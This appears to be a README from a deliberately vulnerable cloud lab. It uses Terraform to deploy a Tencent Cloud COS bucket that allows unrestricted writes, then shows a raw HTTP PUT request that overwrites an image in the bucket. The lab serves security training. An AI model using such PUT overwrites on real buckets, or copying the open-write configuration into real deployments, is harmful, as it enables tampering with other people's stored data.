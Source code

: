 # Description

English | [中文](./README_CN.md)

This is a script that can quickly help you build arbitrary file upload scenario for storage buckets

## Deployment environment

```bash
cd /TerraformGoat/tencentcloud/cos/unrestricted_file_upload/
```

Write in your Tencent Cloud account AK with KEY

```bash
vim terraform.tfvars
```

build scenario

```bash
terraform init
terraform apply
```

 access /hx.png

![image-20220425195047346](../../../images/image-20220425195047346.png)

Now we can overwrite this file by using the PUT method

![image-20220425195122239](../../../images/image-20220425195122239.png)

```http
PUT /hx.png HTTP/1.1
Host: uzjusecqwe-.cos.ap-nanjing.myqcloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

Then use the GET method to get the image we covered

![image-20220425195153269](../../../images/image-20220425195153269.png)

## Destruction Challenge

```bash
terraform destroy
```

Then press enter, type yes and wait for the destruction
